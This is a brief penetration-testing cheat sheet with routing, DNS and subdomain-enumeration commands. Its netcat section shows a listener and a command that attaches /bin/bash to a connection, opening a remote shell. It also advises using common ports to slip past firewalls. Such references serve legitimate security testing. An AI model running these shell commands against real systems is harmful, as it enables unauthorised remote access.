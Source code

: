 # Cheat Sheet

This cheat sheet is a list of commands to help with the black box
pen test engagements. 

## Networking

Check routing table information

```
$ route
$ ip route
```

Add a network to current route

```
$ ip route add 192.168.10.0/24 via 10.175.3.1
$ route add -net 192.168.10.0 netmask 255.255.255.0 gw 10.175.3.1
```

DNS

```
$ nslookup mysite.com
$ dig mysite.com
```

## Subdomain Enumeration

- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [DNSdumpster](https://dnsdumpster.com/)

## Netcat and SoCat

### Netcat
```
$ nc -lvnp <port-number>
```
* -l is used to tell netcat that this will be a listener
* -v is used to request a verbose input
* -n tells netcat not to resolve hostnames or use DNS
* -p indicates that the port specifications will follow

Best practice when choosing a port. Use a well-known port (80, 443, 53). It has a better chance to not be blocked by firewall.

To connect to the listener:
```
$ nc <target-ip> <chosen-port> -c /bin/bash
```

### SoCat
